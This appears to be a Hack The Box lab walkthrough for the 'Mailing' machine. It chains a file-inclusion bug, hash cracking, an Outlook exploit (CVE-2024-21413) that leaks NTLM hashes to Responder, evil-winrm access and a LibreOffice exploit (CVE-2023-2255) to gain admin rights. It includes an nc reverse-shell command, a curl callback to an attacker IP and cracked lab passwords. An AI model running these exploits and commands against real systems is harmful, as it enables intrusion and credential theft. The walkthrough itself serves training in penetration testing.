

---
---

# HTB - Mailing

NMAP


Add mailing.htb to /etc/hosts

- Open Burp and capture the request from Download Instructions


- Try and get to the hosts file:

```bash
C:\Windows\System32\drivers\etc\hosts

```
**We exclude C:\\ when doing traversal:**





- We have a LFI vulnerability

- We know that hMailServer is running and the config file for it is in:

```bash
C:\Program Files\hMailServer\Bin\hMailServer.ini

```
But that didn't work:


- We can try and do:

```bash
C:\Program Files(x86)\hMailServer\Bin\hMailServer.ini

```
And we get the config file back:


We get hashes:

AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7

\[Database\]


Password=0a9f8ad8bf896b501dde74f08efd7e4c


- Crack with hashcat:

```bash
hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

```


**Administrator - homenetworkingadministrator**

- Not logon creds:


- In order to decrypt the database password - we need to use a program specifically made for it:
<https://github.com/GitMirar/hMailDatabasePasswordDecrypter>


**6FC6F69152AD**

- Tried logging in through SMTP - But it didn't work:

```bash
telnet mailing.htb 25

EHLO client.net

AUTH LOGIN

<username>

<password>

```

- Log in through POP3 - worked but nothing there:

```bash
telnet mailing.htb 110

USER Administrator@mailing.htb

PASS homenetworkingadministrator

```
- If we search for Outlook vulnerabilities we come across this:
<https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability>

- Set up Responder:

```bash
Responder -I tun0
```

- And send the following crafted payload (We get the recipient name from the homepage):

```bash
python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.14.15\meeting' --subject "Important"

```


- And we get a hit:


- Crack with hashcat:

```bash
hashcat -a 0 -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

```


**maya : m4y4ngs4ri**

- The creds are good:


- And we can evil-winrm in:


```bash
evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri

```


```bash
cat user.txt

```
- Enumerating - we see a user localadmin:


- Looking at scheduled tasks:

```bash
schtasks /query /fo LIST /v | select-string -pattern "localadmin" -context 9,13

```


We see an office script running under localadmin

- We can also see that LibreOffice is installed:


- Get LibreOffice version:

```powershell
$libreofficeInstallPath = "C:\Program Files\LibreOffice"
$libreofficeVersion = (Get-Item "$libreofficeInstallPath\program\soffice.bin").VersionInfo.FileVersion
Write-Host "LibreOffice Version: $libreofficeVersion"

```


- **CVE-2023-2255:**


- Test the exploit:
<https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py>

```bash
python3 CVE-2023-2255.py --cmd "curl <http://10.10.14.15:8000/a>" --output form.odt

```
- Upload the form.odt to C:\Important Documents


- Set up python http server to test:


- Uploading nc and trying to get a reverse shell didn't work because of AV:

```bash
python3 CVE-2023-2255.py --cmd "C:\Important Documents\nc.exe 10.10.14.15 8000 -e cmd.exe" --output form.odt

```
- So instead added maya to admin group:

```bash
python3 CVE-2023-2255.py --cmd "net localgroup Administradores /add maya" --output form.odt

```


- Close the current evil-winrm session and start a new session (otherwise the new group won't take effect)

```bash
cat root.txt

```
- We can also dump the SAM hashes now